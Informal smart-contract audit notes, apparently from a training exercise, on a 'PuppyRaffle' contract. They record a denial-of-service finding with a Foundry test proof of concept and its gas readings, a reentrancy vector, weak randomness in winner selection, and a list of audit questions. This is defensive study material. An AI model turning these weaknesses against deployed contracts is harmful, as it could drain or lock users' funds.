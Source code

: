 # About

> players can enter raffle by purchasing a ticket; and after some X duration of time a winner is randomly selected and awarded 80% of totalFees collected during raffle period; the beneficiary gets the other 20%

# Informational 
- advised to mark state vars as s_ ; and follow other conventions

# Findings

## High

- Found a DoS
> PoC
```js
    function testIsDoS() public {
        vm.txGasPrice(1);
        address[] memory players = new address[](100);
        for (uint256 i = 0; i < 100; i++) {
            players[i] = address(i);
        }

        uint256 gasUsedBefore = gasleft();
        puppyRaffle.enterRaffle{value: entranceFee * 100}(players);
        uint256 gasUsedAfter = gasleft();
        uint256 gasUsed = (gasUsedBefore - gasUsedAfter) * tx.gasprice;

        console.log("Gas used for first 100: ", gasUsed);

        address[] memory players2 = new address[](100);
        for (uint256 i = 0; i < 100; i++) {
            players2[i] = address(i + players.length);
        }

        uint256 gasUsedBefore2 = gasleft();
        puppyRaffle.enterRaffle{value: entranceFee * 100}(players2);
        uint256 gasUsedAfter2 = gasleft();
        uint256 gasUsed2 = (gasUsedBefore2 - gasUsedAfter2) * tx.gasprice;

        console.log("Gas used for second 100: ", gasUsed2);

        assert(gasUsed2 > gasUsed);
    }

```

the gas paid by the second 100 players is much more than the first 100 
> Gas used for first 100:  6252039
  Gas used for second 100:  18068129

- Found a Reentrancy Attack Vector

**Impact** : High 

## Medium-High

- Weak Randomness in the `PuppyRaffle::selectWinner` method; random numbers are being produced by deterministic figures or influenceable figures like block.difficulty by miners

**Impact**: M/H








# Attack Vectors
- can we add duplicate parts?
- can we enter the raffle without a ticket?
- what if users couldn't get a refund?
- raffle winner before X seconds?
- can anyone beside the winner get the NFT?
- can anyone beside the owner set the feeAddress?
- when can the owner take a cut?
- can parts call refund after the raffle period is over?
- does the raffle operate in rounds, where X is the interval of the round? during this round the parts can enter via tickets and during this process the owner can withdraw a portion of this ticket value and parts can also refund their tickets but at the end of the interval the winner gets all teh value + the NFT?

